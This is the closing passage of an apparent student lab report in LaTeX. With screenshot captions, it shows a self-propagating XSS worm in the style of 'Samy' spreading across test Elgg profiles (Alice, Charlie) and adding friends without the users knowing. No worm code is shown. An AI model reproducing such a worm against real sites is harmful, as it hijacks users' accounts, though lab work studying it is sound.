         
\includegraphics[width=0.5\textwidth]{Images/ss10.png}
         \caption{Samy gets a friend request from Alice without her knowing it}
         \label{fig:ss10}
     \end{figure}
 \item Alice's profile gets modified with the worm in her ``About Me'' field, which will eventually get propagated:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=0.8\textwidth]{Images/ss11.png}
         \caption{Alice's profile gets modified along with the worm}
         \label{fig:ss11}
     \end{figure}
 \item Alice's profile link is posted on the wire:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss12.png}
         \caption{Alice's profile link is posted on the Wire}
         \label{fig:ss12}
     \end{figure}
 \item When Charlie visits Alice's profile, Samy gets added as his friend:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss13.png}
         \caption{Samy gets added as Charlie's friend}
         \label{fig:ss13}
     \end{figure}
 \item Charlie's profile is also modified, with the worm as well, of course:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss14.png}
         \caption{Charlie's profile gets modified with the worm as well}
         \label{fig:ss14}
     \end{figure}
\end{itemize}
So, the worm is propagating, as expected.

\end{document}
